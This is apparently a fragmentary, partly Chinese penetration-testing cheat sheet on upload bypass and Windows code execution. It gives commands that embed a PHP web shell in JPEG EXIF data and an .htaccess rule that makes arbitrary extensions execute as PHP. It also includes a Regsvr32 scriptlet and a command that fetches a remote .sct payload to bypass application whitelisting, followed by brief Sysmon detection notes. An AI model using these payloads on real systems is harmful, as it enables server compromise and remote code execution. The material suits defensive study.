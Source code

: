 file.jpg with php backdoor in exif (see below)

.jpg -> proxy intercept -> rename to .php

### 在JPEG中注入PHP

```
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
```

### Uploading .htaccess to interpret .blah as .php

```
AddType application/x-httpd-php .blah
```

### 破解密码

## 代码执行

Regsvr32 代码执行-绕过应用程序白名单



### Execution

```
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```

我们需要托管后台。SCT在web服务器上，所以我们可以像这样调用它:

```
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```

### 观察

注意,regsvr32进程几乎立即退出。这意味着仅仅通过观察受害者机器上的过程列表,邪恶的过程可能不会立即出现……直到你意识到它是如何被调用的。Sysmon commandline日志记录可以帮助您检测这个活动:

此外,sysmon将显示regsvr32建立一个网络连接:
